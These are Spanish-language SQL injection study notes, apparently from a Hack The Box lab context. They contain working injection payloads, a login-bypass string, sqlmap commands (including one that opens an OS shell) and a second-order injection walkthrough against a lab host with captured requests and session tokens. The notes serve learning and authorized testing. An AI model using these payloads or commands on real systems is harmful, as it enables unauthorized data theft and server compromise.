 # SQL Injection

## SQL Injection Fundamentals
- Una inyección SQL es una vulnerabilidad de seguridad que permite a un atacante interferir con las consultas que una aplicación web realiza a su base de datos SQL.
- La inyección SQL se produce cuando se insertan datos no validados en una consulta SQL.
- La inyección SQL puede ser utilizada para leer, modificar y eliminar datos de una base de datos.
- La inyección SQL puede ser utilizada para ejecutar comandos en el sistema operativo.
- Hay diferentes tipos de inyecciones SQL, como la inyección SQL basada en errores, la inyección SQL basada en tiempo y la inyección SQL ciega.
![](https://academy.hackthebox.com/storage/modules/33/types_of_sqli.jpg)
    - union based SQL injection
        - ejemplo de payload: `1' UNION SELECT 1,2,3 --`
    - error based SQL injection
        - ejemplo de payload: `1' AND 1=CONVERT(int, (SELECT @@version)) --`
    - time based SQL injection
        - ejemplo de payload: `1' AND IF(1=1, SLEEP(5), 0) --`
    - blind SQL injection
        - ejemplo de payload: `1' AND SLEEP(5) --`

### Deteccion de SQL Injection
- Generalmente al poner un `'` en un campo de texto y si la aplicación devuelve un error de SQL, es probable que sea vulnerable a SQL Injection.
- También se puede poner un comentario `--` como intento de primer payload.
- Otra forma de detectar SQL Injection es mediante la inyección de comandos SQL en los campos de texto y observar si la aplicación devuelve resultados inesperados.
    - **"Error: near line 1: near "'": syntax error"** es un mensaje de error común que se obtiene cuando se inyecta un `'` en un campo de texto.
    - Ejemplo: `1' OR '1'='1`
    - [Otros ejemplos](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt?source=post_page-----7e777892e485---------------------------------------)

### Login Bypass SQL Injection
- La inyección SQL se puede utilizar para eludir la autenticación de un sistema.
- Ejemplo de payload: `admin' OR '1'='1`
    - Si el usuario y la contraseña son correctos, la consulta SQL se verá así: `SELECT * FROM users WHERE username='admin' AND password='password'`
    - Esto genera una tautología que siempre es verdadera, entonces la va a tomar como verdadera y va a permitir el acceso.
![](https://academy.hackthebox.com/storage/modules/33/or_inject_diagram.png)


## [SQLI manual](./manualSQLI.md)

## SQLMAP
- SQLMAP es una herramienta de prueba de penetración de código abierto que automatiza el proceso de detección y explotación de vulnerabilidades de inyección SQL.

### Comandos generales
- `sqlmap -u URL --dbs` para listar las bases de datos.
- `sqlmap -r HTTP-REQUEST-FILE --dbs` para usar un archivo con la request.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch` para usar un archivo con la request y no hacer preguntas.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch --level=5 --risk=3` para usar un archivo con la request y no hacer preguntas, con nivel de riesgo y nivel de profundidad.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch --level=5 --risk=3  --current-user --current-db --is-dba` para usar un archivo con la request y no hacer preguntas, con nivel de riesgo y nivel de profundidad, y obtener información del usuario actual, base de datos actual y si es DBA.

#### Anti-CSRF Token
- Si la aplicación web utiliza tokens CSRF, se puede usar el parámetro `--csrf-token` para especificar el token CSRF.
- Ejemplo: `sqlmap -u URL --csrf-token=CSRF-TOKEN --dbs`
- `sqlmap -u URL --randomize=rp --dbs` para randomizar el token CSRF.
- `sqlmap -u URL --eval="import time; time.sleep(10)" --csrf-token=CSRF-TOKEN --dbs` para evaluar un script de python y dormir el tiempo que se le pase como argumento.

#### OS shell
- `sqlmap -u URL --os-shell` para obtener una shell en el sistema operativo.


## SQLI en WebSockets
- Dentro de los websockets se pueden realizar consultas SQL.
- Hay que estar atento al burp proxy para ver las peticiones y respuestas.
- sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch

## Inyección SQL de Segundo Orden

La inyección SQL de segundo orden ocurre cuando los datos inyectados no se utilizan de inmediato, sino que se almacenan en la base de datos y se procesan posteriormente en una consulta SQL de manera insegura.

### Ejemplo:
1. El atacante introduce datos maliciosos en un formulario que se almacenan en la base de datos.
2. Más tarde, otra funcionalidad de la aplicación utiliza esos datos almacenados en una consulta SQL sin validarlos, permitiendo la explotación.

- Este tipo de inyección es más difícil de detectar, ya que el impacto no es inmediato y depende de cómo la aplicación maneje los datos almacenados.

- `sqlmap -r update_genres.req --second-req=user-feed.req  --dbs --level 5 --risk 3 --batch --tamper=space2comment --random-agent`
- Siendo update_genres.req un archivo que contiene una petición HTTP POST de una api que actualiza algo, o sea que es muy probable que haga una consulta del tipo `UPDATE table SET column = value WHERE condition`.
    - Y la segunda petición que practicamente hace GET user feed, o sea que recarga/fetchea/actualiza la información en la aplicación.


### update_genres.req
```http	
POST /api/v1/gallery/user/genres HTTP/1.1
Host: 10.10.11.220
Content-Length: 17
X-XSRF-TOKEN: eyJpdiI6ImdtZ0VkQXI0aUZtTUVVNzZxUnF6VlE9PSIsInZhbHVlIjoiYmZTRGVOWmptTVN3S2NldGlZNWtxdkozYUF0N25HWXVuazRuL0hBTGo0QnRaSCsrVWhMNkNuV1ltaUhvbkxDbFlTaVJueFcvdVhvamFLbE9wREgxZkEvdjA0L0J0bWxvSWNma2VUZ3JyWXYraG1Vb1VZeVVqNXV0bDBtUStib0ciLCJtYWMiOiJjNWU2ZDkwYWM1MGQ3NDQ4MjE2ZTZhYmU0ZjRkNzU5NDhjZTNhODEzNzA1ZDlmY2UwOWNjNDM1OGYwYzdkMTdiIiwidGFnIjoiIn0=
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Origin: http://10.10.11.220
Referer: http://10.10.11.220/gallery
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNzQ0MDQ3MzcwLCJleHAiOjE3NDQwNjg5NzAsIm5iZiI6MTc0NDA0NzM3MCwianRpIjoiNDB3T0RMR2l1Qkp1aFczTyIsInN1YiI6IjI4IiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.N18GEbvP-Lpdcm-w0VsyqQ-Ihbyu5KYNq9obdXn65Aw; XSRF-TOKEN=eyJpdiI6ImdtZ0VkQXI0aUZtTUVVNzZxUnF6VlE9PSIsInZhbHVlIjoiYmZTRGVOWmptTVN3S2NldGlZNWtxdkozYUF0N25HWXVuazRuL0hBTGo0QnRaSCsrVWhMNkNuV1ltaUhvbkxDbFlTaVJueFcvdVhvamFLbE9wREgxZkEvdjA0L0J0bWxvSWNma2VUZ3JyWXYraG1Vb1VZeVVqNXV0bDBtUStib0ciLCJtYWMiOiJjNWU2ZDkwYWM1MGQ3NDQ4MjE2ZTZhYmU0ZjRkNzU5NDhjZTNhODEzNzA1ZDlmY2UwOWNjNDM1OGYwYzdkMTdiIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IlJXOWRQK0tJbk1jaUhCZDRLYktQV2c9PSIsInZhbHVlIjoiYWh4TGJYb1BjcnhMN2VVMWp2YzJiSkJoc0lRbjEzRVgxalc3Sm9aUUoyVktwaG9vZUdyWmpqYTZVTjc1bUQ2VFExUDd0UTVXTVdRMkxTaExsNGdVR0kvUTMxNzNwQlloS25yczJvUHlFelFobVQ2YWo1ZzVOQUdxRE9HM28xdTciLCJtYWMiOiJiN2U3MmNlOWI3ODYzNDE0ZTNhNDlkMDBiNmUzYTcyN2EwZGM1NTA2Yjc0MDMzOWU4NDkyODg2Zjc5N2YwNTUyIiwidGFnIjoiIn0%3D
Connection: keep-alive

{"genres":"test"}
``` 

### user-feed.req
```http
GET /api/v1/gallery/user/feed HTTP/1.1
Host: 10.10.11.220
X-XSRF-TOKEN: eyJpdiI6Im9JNktoUVE1cjA0NWpVMWlMcVdkbkE9PSIsInZhbHVlIjoiandkUFV2YTJIbTYwRjBiR0UyWG9HOUkxa1VtcDNJNGx4TWJDbU1FRnVURERWdThtdkR3TzJ4eXdENVNzcnNJcFpZanpWeFBPbzd1bUxHcVJzd0V4UmNsR0FDd29UbVNKVDcvUmtJN3BoVnBORnRxcHljTmJGTFdKbFFSOHF6MTciLCJtYWMiOiIwMGFhODg1NjcwZmExZDllMjNkYWQ2MzYwM2I2YjBkMjk4ZmNiZDBiZDZhOWMyOGE0NTMxOTViYjA3Y2UwNTVkIiwidGFnIjoiIn0=
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Referer: http://10.10.11.220/gallery
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNzQ0MDQ3MzcwLCJleHAiOjE3NDQwNjg5NzAsIm5iZiI6MTc0NDA0NzM3MCwianRpIjoiNDB3T0RMR2l1Qkp1aFczTyIsInN1YiI6IjI4IiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.N18GEbvP-Lpdcm-w0VsyqQ-Ihbyu5KYNq9obdXn65Aw; XSRF-TOKEN=eyJpdiI6Im9JNktoUVE1cjA0NWpVMWlMcVdkbkE9PSIsInZhbHVlIjoiandkUFV2YTJIbTYwRjBiR0UyWG9HOUkxa1VtcDNJNGx4TWJDbU1FRnVURERWdThtdkR3TzJ4eXdENVNzcnNJcFpZanpWeFBPbzd1bUxHcVJzd0V4UmNsR0FDd29UbVNKVDcvUmtJN3BoVnBORnRxcHljTmJGTFdKbFFSOHF6MTciLCJtYWMiOiIwMGFhODg1NjcwZmExZDllMjNkYWQ2MzYwM2I2YjBkMjk4ZmNiZDBiZDZhOWMyOGE0NTMxOTViYjA3Y2UwNTVkIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IjBlMDYybXlIRklhZHdVU0UrdGtFNEE9PSIsInZhbHVlIjoibEc5VU9FNDhISDdzUXdpYTJlcVBLK0xrbVhkeEVScndZVGcvRTl6Rm1iOVE3REV5bys2djdXWEQ4K0treVRWMEFzZkoxSGNmTTFwRzVraU1VYzBzRUpEcDM2WkxFT2xpUnFNVUFrVFQ2YktuT3hUQ3pkUkhSZCtWbDNvOXlCVi8iLCJtYWMiOiJkY2E0YmFmMWExZDdiZTcxNjUyZDUyZDE2MWMyZjk4OGUzZjM3NjZkNGY0ZWI2YmIwMTIzOTJmYzc4ODFmNjZiIiwidGFnIjoiIn0%3D
Connection: keep-alive
```

### Payloads
``` 
---
Parameter: JSON genres ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: {"genres":"test') OR NOT 5455=5455 AND ('QYvP'='QYvP"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"genres":"test') AND (SELECT 5404 FROM (SELECT(SLEEP(5)))LAtK) AND ('ClJK'='ClJK"}

    Type: UNION query
    Title: MySQL UNION query (NULL) - 5 columns
    Payload: {"genres":"test') UNION ALL SELECT NULL,CONCAT(0x7162787071,0x4a4268414d737150586b687553784e4d757851796e6c724c68666a646d4c4c706e78736c51435370,0x7171627671),NULL,NULL,NULL#"}
---
```

- Entonces el comportamiento de la aplicación es el siguiente:
    - Actualizas los géneros de un usuario, y luego haces un GET a la api de user feed.
    - La aplicación hace un SELECT a la base de datos para obtener los géneros del usuario y mostrarlos en la aplicación.
- La inyección SQL de segundo orden se produce cuando la aplicación almacena los datos inyectados en la base de datos y luego los utiliza en una consulta SQL sin validarlos.
- petición POST => Guardas una inyección SQL en la base de datos.
- petición GET => La aplicación hace un SELECT a la base de datos y muestra los datos inyectados en la aplicación.
- La inyección SQL de segundo orden se produce cuando la aplicación almacena los datos inyectados en la base de datos y luego los utiliza en una consulta SQL sin validarlos.
